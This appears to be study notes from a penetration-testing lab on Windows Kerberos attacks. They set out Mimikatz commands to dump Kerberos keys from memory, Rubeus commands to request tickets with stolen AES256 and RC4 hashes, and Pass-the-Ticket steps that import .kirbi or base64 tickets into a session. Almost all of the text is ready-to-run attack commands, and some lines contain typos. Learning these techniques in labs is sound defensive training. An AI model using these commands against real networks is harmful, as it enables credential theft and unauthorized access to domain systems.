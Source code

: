 #### Mimikatz - Extract Kerberos Keys

dump sKerberos encryption keys 

```cmd
1. mimikatz.exe
2. privilege::debug
3. skurlsa::ekeys

```


### forging the ticket with rubeus

To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. In the following example, we use the aes256 hash from the information we collect using Mimikatz `sekurlsa::ekeys`.

```cmd
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

> **Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

>**Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

## Pass the Ticket (PtT)

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

#### Convert .kirbi to Base64 Format

```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
#### Pass the Ticket - Base64 Format

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

# questions windows
